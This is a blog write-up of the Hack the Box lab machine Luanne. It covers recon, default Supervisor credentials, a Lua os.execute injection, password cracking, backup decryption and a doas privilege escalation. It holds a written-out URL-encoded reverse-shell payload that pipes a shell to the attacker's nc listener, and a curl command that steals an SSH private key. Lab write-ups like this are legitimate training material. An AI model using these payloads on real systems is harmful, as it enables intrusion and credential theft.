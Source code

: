```yaml
---
weight: 1
title: "Hack the Box - Luanne"
date: 2021-03-27T21:29:01+08:00
lastmod: 2021-03-27T21:29:01+08:00
draft: false
author: "HcKy"
authorLink: ""
description: "Hack the Box Luanne Write-up"
resources:
- name: "featured-image"
  src: "luanne.png"
  
  
tags: ["BSD", "Lua", "HTB"]
categories: ["write-ups"]

lightgallery: true
linkToMarkdown: false

toc:
  auto: false
---
```


<div style="text-align:center">Write-up of Luanne - Difficulty : Easy </div>

<!--more-->

>Rest satisfied with doing well, and leave others to talk of you as they will.  
>  
> -Pythagoras  

## 1. Overview

Luanne is a NetBSD box running a vulnerable lua web app.  
The app is also being served out of a user's home directory.  
A backup on the computer contains the root password for the box.  



## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 80, and 9001 are open.

``` bash 
 nmap -sC -sV -p- -T4 10.129.120.184
```

![nmap](nmap.png)

  
Looks like nmap found a disallowed site at /weather on the robots.txt file as well as Supervisor running on port 9001.

### 2.2 Websites
#### 2.2.1 Supervisor
Next we'll go check out port 10.129.120.184:9001 in a browser and we get prompted for a username/password.  
After doing some research into Supervisor default configs we can find that the default credentials of **user:123** will allow us to authenticate to the website.  

![gem](supervisor1.png)

If we go to processes we can see something running from **r.michaels** home directory. It appears to be that weather site that nmap found earlier.  

![proc](processes.png)

#### 2.2.2 Weather

After that we head on over to 10.129.120.184/weather and it doesn't resolve to anything.  
If we fuzz for web directories we find **/forecast**.  
![ff](ffuf.png)  

If we browse to this site we are greeted with a message that no city is specificed and we should use "city=list" to list all available options.  Upon doing so by adding **?city=list** to the end of our request we can choose any city and get the weather forecast for it.

Now that we know how to get the script to work we google for lua rce exploits and find a usefule article by [SyHunt](https://www.syhunt.com/pt/index.php?n=Articles.LuaVulnerabilities).

## 3. Foothold

Upon reading the article we find that **os.execute** might allow us to have our code executed on the remote system. After some simple tests we wind up with our reverse shell code that we need to URL encode and pass through the browser. Before sending it we start our reverse shell with **nc -lvnp 3001**.
``` http
http://10.129.120.184/weather/forecast?city=London%27%29%3Bos.execute%28%22rm%20%20%2Ftmp%2Ftest%3Bmkfifo%20%2Ftmp%2Ftest%3Bcat%20%2Ftmp%2Ftest%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.88%203001%20%3E%2Ftmp%2Ftest%22%29--)
```
![lua](lua.png)

With that we wind up with a shell as **_httpd**.

## 4. User

Since there's a website running the first thing to check is **/var/www** and luckily for us there's a hidden file **.htpasswd** that contains credentials for **webapi_user**.  

![web](htpasswd.png)  

After we copy that hash to our box we can run hashcat against it.  

![hash1](hashcat.png)  

We can use these credentials to authenticate to the server on port 3001 and steal r.michales ssh key.  

```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa
```
![curl](curlssh.png)

There is a backups folder in our user's home directory where we find **devel_backup-2020-09-16.tar.gz.enc**. If we google NetBSD .enc files it brings us to the [netpgp manual pages](https://man.netbsd.org/netpgp.1).  
With the help of the man pages we can decrypt this backup and look at it.  
```
netpgp --decrypt /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/test.tar.gz
gunzip /tmp/test/tar.gz
tar -xvf /tmp/test.tar
```
![tar](backup.png)  

Just like how we found the previous webapi-user password we can find the backup password in **.htpasswd**.

![pas](htpasswd2.png)  

Following the same steps as before we can crack it with hashcat.  
![hah](pass2.png)

## 5. Root

If you're familiar with NetBSD there is the **doas** command which acts as an more easily configurable version of **sudo**.  Since sudo is not a known command on this box if we try to run **doas sh** we are prompted for a password.  As with all pentests you should always re-use passwords you find since passwords are commonly used for multiple accounts, against security guidance. Upon entering the password we just found we are granted a shell as root.  
![root](root.png)

## Conclusion

1. Host web apps from the proper directories. 
2. Ensure your backups are properly protected or stored off system.
3. Do not re-use passwords for accounts.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
